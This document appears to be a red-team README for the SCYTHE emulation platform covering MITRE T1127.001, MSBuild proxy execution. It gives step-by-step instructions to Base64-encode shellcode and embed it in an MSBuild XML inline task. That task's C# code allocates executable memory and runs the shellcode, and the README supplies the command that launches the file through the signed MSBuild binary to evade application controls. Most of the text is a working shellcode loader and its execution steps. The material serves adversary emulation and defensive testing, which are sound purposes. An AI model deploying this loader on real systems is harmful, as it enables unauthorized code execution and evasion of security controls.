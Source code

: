 # T1127.001 - Trusted Developer Utilities Proxy Execution: MSBuild

This SCYTHE Compound Action leverages the native Windows utility MSBuild to execute malicious code. This is a LOLBAS attack that uses the MSBuild compiler to dynamically compile and execute C# code contained within an XML file. The C# code decodes and runs shellcode, which runs within the MSBuild.exe process. Since the MSBuild executable is digitally signed by Microsoft, this attack is also a bypass of many common Application Controls. For more about abuse of MSBuild: https://attack.mitre.org/techniques/T1127/001/ 

## Obtaining the Shellcode

First, you must obtain shellcode that loads the malicious payload you wish to execute. In this Compound Action, we will use shellcode generated by SCYTHE.

Create a Campaign in the SCYTHE UI. Then, follow the instructions below depending on your version of SCYTHE.

### Pre-3.4

In the Campaign List, select the Campaign that you created to view its detailed page. Click the "More Actions..." dropdown menu, and select "Direct-Downloads Links". You will be shown a list of download links. Each is the SCYTHE client in a different executable format. To download the shellcode format, choose either the 32-bit or 64-bit "Reflective Loader + DLL" link and paste it into your browser. The shellcode should begin downloading.

### 3.4

In the Campaign List, select the Campaign that you created to view its detailed page. Click the "Download" button. You will be shown a "Download Campaign Client" menu. Select your preferred architecture (64-bit or 32-bit) and "Shellcode + DLL" for the File Type. Click the Download SCYTHE Client button. The shellcode should begin downloading.

## Creating the Shellcode Runner

Transform the shellcode file into a Base64 format. You may do this however you like, but any easy method is the following:

1) Open a PowerShell prompt and use the following code to transform the .bin file into a Base64-string. 

    * Edit the path to the appropriate path for your .bin file.
    * Ensure you have double "\\\\" between directories in the string.
```powershell
$filename = "C:\\Users\\User\\Downloads\\test1_scythe_client32.bin"
[Convert]::ToBase64String([IO.File]::ReadAllBytes($filename)) | clip
```
 
2) You will now have a large Base64 string in your clipboard that you may paste elsewhere. Create a new XML file with and paste the following into it, replacing the existing Base64 string:

```xml
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
<!-- This inline task executes shellcode. This example XML file is modified from an example payload created by Casey Smith. It has been modified to support non-blocking shellcode loaders.-->
<!-- C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe SimpleTasks.csproj -->
<!-- Save This File And Execute The Above Command -->
<!-- Authors: Casey Smith, Twitter: @subTee , The Wover-->
<!-- License: BSD 3-Clause -->
<Target Name="Run">
<ClassExample />
</Target>
<UsingTask
TaskName="ClassExample"
TaskFactory="CodeTaskFactory"
AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
    <Task>
        <Code Type="Class" Language="cs">
            <![CDATA[
            using System;
            using System.Runtime.InteropServices;
            using Microsoft.Build.Framework;
            using Microsoft.Build.Utilities;
            public class ClassExample :  Task, ITask
            {         
                private static UInt32 MEM_COMMIT = 0x1000;
                private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

                [DllImport("kernel32")]
                private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

                [DllImport("kernel32")]
                private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

                [DllImport("kernel32")]
                private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

                public override bool Execute()
                {
                //replace with your own shellcode
                    string b64 = "YOmlAgAAW4PsKInliV0Ag8MAZKEwAAA.....AAAAAAAAAA=";
                    byte[] shellcode = System.Convert.FromBase64String(b64);
                    
                    UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
                    Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
                    IntPtr hThread = IntPtr.Zero;
                    UInt32 threadId = 0;
                    IntPtr pinfo = IntPtr.Zero;
                    hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);

                    // Loop endlessly to prevent the process from exiting
                    int x = 0;
                    for (int i = 0; i==i; i++) 
                    {
                        x = i;
                        x++;
                    }
                    return true;
                } 
            }     
            ]]>
            </Code>
        </Task>
    </UsingTask>
</Project>
```

3) When you replace the existing base64 string with your own, keep in mind the following. 
    * Delete the pre-existing text between the double quotes and the paste from your clipboard.
    * Make sure that there are no spaces or newlines inside of the string or between the double quotes.
4) Save the file as an XML file (such as `msbuild.xml`).
5) In your Powershell prompt, run the following command, replacing the path to the .XML file with your own:
    * `C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe .\msbuild.xml`
    * The SCYTHE client should connect with your SCYTHE server.
    * If the Powershell window is closed, connection will drop.
    * Alternative, you may run the following command to execute the code in the background so that you may safely close your Powershell prompt: `C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe .\msbuild.xml &`